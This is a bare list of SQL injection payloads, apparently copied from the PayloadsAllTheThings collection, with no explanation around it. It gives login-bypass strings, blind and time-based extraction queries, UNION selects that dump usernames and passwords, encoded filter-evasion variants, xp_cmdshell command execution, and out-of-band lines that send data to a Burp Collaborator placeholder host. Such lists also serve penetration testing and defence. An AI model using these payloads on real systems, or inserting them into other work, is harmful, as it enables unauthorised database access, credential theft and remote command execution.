 **Further:** https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

0' or '0' = '0
1' or '1' = '1
' OR '1'='1
' or 1=1 limit 1 --
1 AND 1=1 --
1 AND 1=2 --
1 AND LENGTH(@@hostname)=1 --
1 AND LENGTH(@@hostname)=2 --
1 AND LENGTH(@@hostname)=N --
1 AND ASCII(SUBSTRING(@@hostname, 1, 1)) > 64 -- 
1 AND ASCII(SUBSTRING(@@hostname, 1, 1)) = 104 --
' AND CASE WHEN 1=1 THEN 1 ELSE json('') END AND 'A'='A --
' AND CASE WHEN 1=2 THEN 1 ELSE json('') END AND 'A'='A -
' AND SLEEP(5)/*
' AND '1'='1' AND SLEEP(5)
' ; WAITFOR DELAY '00:00:05' --
BENCHMARK(2000000,MD5(NOW()))
1 AND IF(SUBSTRING(VERSION(), 1, 1) = '5', BENCHMARK(1000000, MD5(1)), 0) --
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
1; EXEC xp_cmdshell('whoami') --
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
' union select 0x2720756e696f6e2073656c65637420312c3223#
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
"anything' UNION SELECT Username, Password FROM Users;--"
"P@ssw0rd"
1%09and%091=1%09--
1%0Aand%0A1=1%0A--
1%0Band%0B1=1%0B--
1%0Cand%0C1=1%0C--
1%0Dand%0D1=1%0D--
1%A0and%A01=1%A0--
1%A0and%A01=1%A0--
1/*comment*/AND/**/1=1/**/--
1/*!12345UNION*//*!12345SELECT*/1--
(1)and(1)=(1)--
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
' OORR 1<2 #
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
' and 1='1
' and a='a
 or 1=1
 or true
' or ''='
" or ""="
1′) and '1′='1–
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
 and 1=1
 and 1=1–
' and 'one'='one
' and 'one'='one–
' group by password having 1=1--
' group by userid having 1=1--
' group by username having 1=1--
 like '%'
 or 0=0 --
 or 0=0 #
 or 0=0 –
' or         0=0 #
' or 0=0 --
' or 0=0 #
' or 0=0 –
" or 0=0 --
" or 0=0 #
" or 0=0 –
%' or '0'='0
 or 1=1
 or 1=1--
 or 1=1/*
 or 1=1#
 or 1=1–
' or 1=1--
' or '1'='1
' or '1'='1'--
' or '1'='1'/*
' or '1'='1'#
' or '1′='1
' or 1=1
' or 1=1 --
' or 1=1 –
' or 1=1--
' or 1=1;#
' or 1=1/*
' or 1=1#
' or 1=1–
') or '1'='1
') or '1'='1--
') or '1'='1'--
') or '1'='1'/*
') or '1'='1'#
') or ('1'='1
') or ('1'='1--
') or ('1'='1'--
') or ('1'='1'/*
') or ('1'='1'#
'or'1=1
'or'1=1′
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 –
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1–
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1′='1–
) or ('1′='1–
' or 1=1 LIMIT 1;#
'or 1=1 or ''='
"or 1=1 or ""="
' or 'a'='a
' or a=a--
' or a=a–
') or ('a'='a
" or "a"="a
") or ("a"="a
') or ('a'='a and hi") or ("a"="a
' or 'one'='one
' or 'one'='one–
' or uid like '%
' or uname like '%
' or userid like '%
' or user like '%
' or username like '%
' or 'x'='x
') or ('x'='x
" or "x"="x
' OR 'x'='x'#;
'=' 'or' and '=' 'or'
' UNION ALL SELECT 1, @@version;#
' UNION ALL SELECT system_user(),user();#
' UNION select table_schema,table_name FROM information_Schema.tables;#
admin' and substring(password/text(),1,1)='7
' and substring(password/text(),1,1)='7
' or 1=1 limit 1 -- -+
'="or'
' and 'x'='x
admin' or 1=1;-- 
?id=1' order by 1 --+
?id=1' and "a"="a"--+
?id=1' and database()="securtiy"--+
?id=1' and substring(database(),1,1)="a"--+
?id=1' and sleep(2) and "a"="a"--+
?id=1' and sleep(2) and substring(database(),1,1)="a"--+
'+||+1=1#
')waitfor delay'0:0:10'--
(select(0)from(select(sleep(10)))v)
(select(0)from(select(sleep(6)))v)/*'%2B(select(0)from(select(sleep(6)))v)%2B'%5C"%2B(select(0)from(select(sleep(6)))v)
%2b(select*from(select(sleep(10)))a)%2b
